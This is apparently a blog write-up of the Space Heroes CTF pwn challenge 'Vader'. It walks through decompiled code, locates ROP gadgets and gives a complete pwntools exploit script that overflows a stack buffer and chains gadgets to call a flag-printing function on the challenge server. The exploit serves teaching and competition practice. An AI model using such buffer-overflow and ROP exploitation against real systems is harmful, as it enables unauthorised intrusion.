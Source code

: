 ```yaml
---
title: "shctf/pwn: Vader"
date: 2022-06-07 10:41:26
tags:
- ctf
- shctf
- pwn
description: "Learn how to exploit ELF binaries using ROP, building a chain of \"gadgets\" on the stack to pass arguments to a function! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Vader\"."
permalink: ctfs/shctf/pwn/vader/
thumbnail: /asset/banner/banner-vader.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-bottom: 1rem;
        margin-top: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<div class="box">
Submit flag from <code>/flag.txt</code> from <code>0.cloud.chals.io:20712</code><br>
<b>Author</b>: v10l3nt<br>
<b>Files</b>: <a href="/asset/shctf/vader">vader</a>
</div>

```text
[*] '/home/kali/ctfs/shctf/pwn/vader/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As with any binary-only challenge, the first thing we must do is boot it up in the **Ghidra** disassembler. Looking through the code we can check what our main function does:

```c
undefined8 main(void)

{
  char local_28 [32];
  
  print_darth();
  printf("\n\nWhen I left you, I was but the learner. Now I am the master >>> ");
  fgets(local_28,0x100,stdin);
  return 0;
}
```

Looks like it reads our input (`stdin`) with a fixed length (256) through `fgets()`. Let's continue sifting around:

```c
void vader(char *param_1,char *param_2,char *param_3,char *param_4,char *param_5)

{
  int iVar1;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  FILE *local_10;
  
  iVar1 = strcmp(param_1,"DARK");
  if (iVar1 == 0) {
    iVar1 = strcmp(param_2,"S1D3");
    if (iVar1 == 0) {
      iVar1 = strcmp(param_3,"OF");
      if (iVar1 == 0) {
        iVar1 = strcmp(param_4,"TH3");
        if (iVar1 == 0) {
          iVar1 = strcmp(param_5,"FORC3");
          if (iVar1 == 0) {
            local_38 = 0;
            local_30 = 0;
            local_28 = 0;
            local_20 = 0;
            local_10 = (FILE *)0x0;
            local_10 = fopen("flag.txt","r");
            fgets((char *)&local_38,0x30,local_10);
            printf("<<< %s\n",&local_38);
          }
        }
      }
    }
    else {
      printf("You are a wretched thing, of weakness and fear.");
    }
    exit(1);
  }
  return;
}
```

The goal is now clear: call the `vader()` function with five correct arguments to print the flag. Simple, right? Let's start building our chain.

Firstly, we need to calculate our **offset**. Although we can brute this by simply pasing a `cyclic` string and seeing what's overwritten the `$rsp` register, we can see that in the `main()` function, 32 bytes are allocated to `char local_28`. If we add 8 bytes to cover the `$rbp` register, our offset is 40.

Next in line is the process of getting our arguments on the stack. Arguments to be passed into functions are held in **registers** -- since this is a 64-bit binary, we need to figure out which ones we need to use to pass the correct arguments (`DARK`, `S1D3`, `OF`, `TH3`, `FORC3`) into `vader()`. Referencing [this x64 cheatsheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf):

> To call a function, the program should place the first six integer or pointer parameters in the registers $rdi, $rsi, $rdx, $rcx, $r8, and $r9; subsequent parameters (or parameters larger than 64 bits) should be pushed onto the stack, with the first argument topmost. The program should then execute the call instruction, which will push the return address onto the stack and jump to the start of the specified function.

Therefore, we need to put our arguments into `$rdi`, `$rsi`, `$rdx`, `$rcx`, and `$r8`. The main method of doing this is via **gadgets**, or simple assembly instructions that can be used to `pop` specific registers from the stack. After the `pop`, we can repopulate the register with our own address that represents the required string (this address will be located within the binary). Additionally, they almost always have a `ret` instruction at the end to return to *even more* gadgets, therefore creating a **ROP chain**.

**Note**: The program literally provides gadget functions for you:

```properties
00000000004011c9 <gadget1>:
  4011c9: 55                    push   rbp
  4011ca: 48 89 e5              mov    rbp,rsp
  4011cd: 59                    pop    rcx
  4011ce: 5a                    pop    rdx
  4011cf: c3                    ret    
  4011d0: 90                    nop
  4011d1: 5d                    pop    rbp
  4011d2: c3                    ret    

00000000004011d3 <gadget2>:
  4011d3: 55                    push   rbp
  4011d4: 48 89 e5              mov    rbp,rsp
  4011d7: 41 59                 pop    r9
  4011d9: 41 58                 pop    r8
  4011db: c3                    ret    
  4011dc: 90                    nop
  4011dd: 5d                    pop    rbp
  4011de: c3                    ret    
```

Although you can use these, it's not really in the nature of a ROP challenge, so I will be finding the gadgets manually!

To find the gadgets we need, we will be utilizing a program called `ropper` and `grep`-ing the output:

```console
root@kali~$ ropper -f vader | grep "rdi"
```

```properties
0x000000000040145e: add byte ptr [rax], al; mov rdi, rax; call 0x1030; nop; pop rbp; ret; 
0x00000000004011bc: add byte ptr [rax], al; mov rdi, rax; call 0x1040; nop; pop rbp; ret; 
0x00000000004015e9: add byte ptr [rax], al; mov rdi, rax; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010b7: mov ecx, 0x401600; mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x00000000004010b6: mov rcx, 0x401600; mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x00000000004010bd: mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x0000000000401460: mov rdi, rax; call 0x1030; nop; pop rbp; ret; 
0x00000000004011be: mov rdi, rax; call 0x1040; nop; pop rbp; ret; 
0x00000000004015eb: mov rdi, rax; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010f6: or dword ptr [rdi + 0x405060], edi; jmp rax; 
0x000000000040165b: pop rdi; ret; 
```

Check it out -- on line 14 (`0x40165b`) there's a perfect gadget for us to use! Let's find ones for the rest of them:

```properties
0x0000000000401659: pop rsi; pop r15; ret;
0x00000000004011ce: pop rdx; ret; 
0x00000000004011d8: pop rcx; pop r8; ret; 
```

The first `pop rsi; pop r15;` isn't ideal, as it's popping a redundant register -- we'll need to repopulate it with 8 bytes of garbage. On the other hand, the `pop rcx; pop r8;` takes care of two registers at once!

With that, we can draw up a visual of what our final payload will look like:

![Payload Visual](/asset/shctf/payload-visual.png)

The last thing we need to do is to find the hex addresses of our argument strings:

<img src="/asset/shctf/strings.png">
<center><sub>String data in Ghidra</sub></center>

Don't forget the address of `vader()` too!:

```console
gef➤  x vader
0x40146b <vader>: 0xe5894855
```

Here is my final script, which defines a variable for each section of our gigantic payload -- this is for enhanced readability. I've also used the `p64()` function, which converts the address into little endian:

```py
from pwn import *

offset =        b'A'*40         # OVERFLOWING 32 + 8 BYTES FOR $RBP

rdi =           p64(0x0040165b) # RDI, RSI, RDX, RCX, & R8 ARE ARGS REGISTERS
rsi_r15 =       p64(0x00401659)
rdx =           p64(0x004011ce)
rcx_r8 =        p64(0x004011d8)

dark =          p64(0x00402ec9) # ADDRESSES FOR STRINGS IN THE BINARY
side =          p64(0x00402ece)
r15_garbage =   p64(0xCAFEBEEF) # GARBAGE
of =            p64(0x00402ed3)
the =           p64(0x00402ed6)
force =         p64(0x00402eda)

vader =         p64(0x0040146b)

payload = offset
payload += rdi + dark                   # POP RDI, STORING "DARK"
payload += rsi_r15 + side + r15_garbage # POP RSI & R15, STORE "S1D3" + GARBAGE
payload += rdx + of                     # POP RDX, STORING "OF"
payload += rcx_r8 + the + force         # POP RCX & R8, STORING "TH3" + "FORC3"
payload += vader                        # ADDRESS OF VADER

p = remote("0.cloud.chals.io", 20712)
p.sendline(payload)
log.success(p.recvallS())
p.close()
```

I don't usually do this, but here's a clip of me initially solving the challenge by running the above script:

{% youtube rvMORfSC2CU %}

This is considered a "simple" challenge for those experienced with the field of return-oriented programming within pwn/binary challenges. However, I had none prior to this competition, so <kbd>Vader</kbd> was one of the most time-consuming and annoying challenges to work with. Yet, it was probably the most satisfying solve throughout the entire competition, and it was my first time utilizing gadgets and building a ROP chain. I hope you enjoyed!

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
